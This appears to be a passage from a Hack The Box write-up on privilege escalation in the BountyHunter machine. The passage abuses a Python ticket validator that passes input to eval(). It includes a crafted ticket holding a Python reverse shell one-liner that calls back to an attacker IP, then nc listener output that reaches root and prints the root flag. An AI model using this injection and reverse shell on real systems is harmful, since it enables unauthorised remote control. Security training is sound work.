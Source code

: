 ```python
            continue
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
            continue

        if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue

        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()
```
{: file="ticketValidator.py"}
The interesting function in this script is the `evaluate(ticketFile)` function. If given a correctly formed `.md`{: .filepath} file, it will evaluate the ticket code, which it expects to be an arithmetic expression. If we instead insert python code into the ticket code, then this code will also be evaluated and therefore run. Because of this we can insert a python reverse shell in the file and then get root access. I used the script on the below file:
```md
# Skytrain Inc
## Ticket to Rome
__Ticket Code:__
**102+10==112 and exec('import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.17.182",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);')
```
When the script is run we get a reverse shell.
```console
┌──(bitis㉿workstation)-[~/htb/Machines/BountyHunter]
└─$ nc -lvnp 1234                                                                                                                                                                                                                       1 ⨯
listening on [any] 1234 ...
connect to [10.10.17.182] from (UNKNOWN) [10.129.95.166] 59012
# ls
invalid_tickets
ticketValidator.py
# cd /root
# cat root.txt
5cefca1942fd5e713a3443d779f24733
```